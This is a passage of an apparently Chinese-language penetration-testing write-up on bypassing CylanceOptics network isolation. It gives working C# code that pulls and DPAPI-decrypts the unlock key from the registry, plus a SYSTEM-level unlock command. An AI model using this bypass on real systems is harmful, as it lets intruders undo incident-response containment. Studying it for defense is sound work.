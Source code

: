 [![](https://p4.ssl.qhimg.com/t018685b20ab2ce0228.png)](https://p4.ssl.qhimg.com/t018685b20ab2ce0228.png)

隔离某台主机后，我们发现CylanceOptics提供了一个解锁密钥：

[![](https://p0.ssl.qhimg.com/t0187b01cc4d6dcf530.png)](https://p0.ssl.qhimg.com/t0187b01cc4d6dcf530.png)

如果能重新连接之前被隔离的主机，那么对我们的渗透过程显然非常有价值。因此我们需要了解在攻击者已入侵某台主机，并且没有获得这种解锁密钥的情况下，如何解除网络隔离。

检查CylanceOptics assembly后，我们发现其中存在一个经过混淆的调用，该调用可以用来获取注册表键值：

[![](https://p2.ssl.qhimg.com/t0131ee983cedb21fda.png)](https://p2.ssl.qhimg.com/t0131ee983cedb21fda.png)

我们发现该调用会提取注册表中`HKEY_LOCAL_MACHINE\SOFTWARE\Cylance\Optics\PdbP`的值，随后该值会传递给.NET DPAPI `ProtectData.Unprotect` API：

[![](https://p5.ssl.qhimg.com/t01bb3358f20df346a0.png)](https://p5.ssl.qhimg.com/t01bb3358f20df346a0.png)

使用`LOCAL SYSTEM`对应的`DPAPI`主密钥来解密这个注册表键值后，我们可以提取出正确密码，相关代码如下所示：

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
namespace CyOpticseUnlock
`{`
    class Program
    `{`
        static void Main(string[] args)
        `{`
            var fixed = new byte[] `{`
            0x78, 0x6A, 0x34, 0x37, 0x38, 0x53, 0x52, 0x4C, 0x43, 0x33, 0x2A, 0x46, 0x70, 0x66, 0x6B, 0x44,
            0x24, 0x3D, 0x50, 0x76, 0x54, 0x65, 0x45, 0x38, 0x40, 0x78, 0x48, 0x55, 0x54, 0x75, 0x42, 0x3F,
            0x7A, 0x38, 0x2B, 0x75, 0x21, 0x6E, 0x46, 0x44, 0x24, 0x6A, 0x59, 0x65, 0x4C, 0x62, 0x32, 0x40,
            0x4C, 0x67, 0x54, 0x48, 0x6B, 0x51, 0x50, 0x35, 0x2D, 0x46, 0x6E, 0x4C, 0x44, 0x36, 0x61, 0x4D,
            0x55, 0x4A, 0x74, 0x33, 0x7E
            `}`;
            Console.WriteLine("CyOptics - Grab Unlock Keyn");
            Console.WriteLine("[*] Grabbing unlock key from HKEY_LOCAL_MACHINE\SOFTWARE\Cylance\Optics\PdbP");
            byte[] PdbP = (byte[])Microsoft.Win32.Registry.GetValue("HKEY_LOCAL_MACHINE\SOFTWARE\Cylance\Optics", "PdbP", new byte[] `{` `}`);
            Console.WriteLine("[*] Passing to DPAPI to unprotect");
            var data = System.Security.Cryptography.ProtectedData.Unprotect(PdbP, fixed, System.Security.Cryptography.DataProtectionScope.CurrentUser);
            System.Console.WriteLine("[*] Success!! Key is: `{`0`}`", ASCIIEncoding.ASCII.GetString(data));
        `}`
    `}`
`}`
```

现在我们只需要将该密码传递给CyOptics就能恢复网络连接（参考[此处视频](https://youtu.be/umQHOa1A0sc)）。

进一步研究后我们发现，虽然我们能提取相关密钥，但如果我们以`LOCAL SYSTEM`身份运行CyOptics命令，那么就不需要提供该密钥，只需要一条简单的命令就能解锁网络（参考[此处视频](https://youtu.be/yEftLqprpyU)）：

```
CyOptics.exe control unlock -net
```
